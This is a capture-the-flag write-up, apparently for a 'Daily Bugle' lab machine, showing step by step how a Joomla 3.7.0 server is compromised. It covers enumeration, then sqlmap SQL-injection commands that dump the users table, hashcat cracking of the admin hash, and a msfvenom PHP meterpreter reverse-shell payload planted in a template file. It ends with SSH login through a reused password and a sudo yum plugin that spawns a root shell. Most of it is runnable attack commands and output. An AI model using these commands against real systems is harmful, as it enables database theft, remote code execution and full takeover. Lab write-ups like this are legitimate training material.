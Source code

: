 # what I learned
- SQLmap is slow AF, max thread is 10....
- Exploiting Joomla version 3.7.0
- GTFObins yum
# enumerate
- 22/tcp   open  ssh
- 80/tcp   open  http
  - robot.txt
```
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```
  - /administrator/ admin login
  - /README.txt joomla version

- 3306/tcp open  mysql


* gobuster
```
/LICENSE.txt (Status: 200)
/README.txt (Status: 200)
/administrator (Status: 301)
/bin (Status: 301)
/cache (Status: 301)
/cgi-bin/ (Status: 403)
/cgi-bin/.html (Status: 403)
/cli (Status: 301)
/components (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/templates (Status: 301)
/tmp (Status: 301)
```
I found out that the server is running Joomla 3.7.0 (from README.txt) and there is a exploit for this version [ExploitDB](https://www.exploit-db.com/exploits/42033)

# foothold
The vulnerability on Joomla 3.7.0 allow attacker to run SQLi attack. The plan is we will using `sqlmap` to fetch all database on the victem server. We might find a admin credential for Joomla which allow us to log in to `/administrator`

First let fetch the databaeses:
```console
$ sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
*
*
*
available databases [5]:
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```
The most interesting database in this case is joomla, let hope that it will contain a credential that allow us to login to the admin page. to list the table in database we run:
```console
$ sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla --tables --threads 10
```
There are many table in joomla database. but if you look closely you will find `#__users` which looks interesting for us.. Lets dump the mentioned table and hope that we will get a Joomla admin credential. 
```console
$ sqlmap -u "http://$IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T '#__users' --dump --threads 10
```
Bing go ! There is one user in the table which is `jonah` and he is admin on Joomla. let crack his password hash using hashcat (3200 bcrypt)
```console
$ hashcat -m 3200 -a 0 -o crack.txt '$2y$<hash>' /usr/share/wordlists/rockyou.txt --force
```
Now, log in to `/administrator`. If you wanna know in depth how to get reverse shell by exploiting Joomla admin panel, read [here](Daily-Bugle.md).

let start with generate the payload using msfvenom
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=tun0 lport=1234 R
```
now open msfconsole and use multi/handler, run it. to execute our payload, visite this page `/templates/beez3/error.php`. You should get a meterpreter shell at this point.

from meterpreter, drop to shell and spawn a tty shell by run
```python -c 'import pty; pty.spawn("/bin/sh")'```

let enumerate a bit.
```console
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
sh-4.2$ pwd
pwd
/var/www/html
sh-4.2$ cat configuration.php
public $password = '<password>';
sh-4.2$ ls /home
ls /home
jjameson
sh-4.2$ cd /home/jjameson
cd /home/jjameson
sh: cd: /home/jjameson: Permission denied
```

# user
this is what we know:
- we cant sudo coz we dont know the `apache`'s password. 
- a password in `configuration.php`
- there is a user call `jjameson`
- no premisson to access `jjameson` files

Remember our nmap? port 22 ssh is open, let ssh as `jjameson` using the password we found in `configuration.php`. BOOM we are in again !! Grab user flag.


recon... again...
```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

# root
As you can see, we can run `yum` as root. So what do we do? like always. go to [GTFObins](https://gtfobins.github.io/gtfobins/yum/#sudo). Prefecto, There is two way to do it, 
1. It runs commands using a specially crafted RPM package. Generate it with fpm and upload it to the target. how to do it? read [here](https://lsdsecurity.com/2019/01/more-linux-privilege-escalation-yum-rpm-dnf-nopasswd-rpm-payloads/)
2. Spawn interactive root shell by loading a custom plugin. how to do it? just run the command that shown in GTFObins

I should to go with 2nd opion:
```console
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# cat /root/root.txt
```


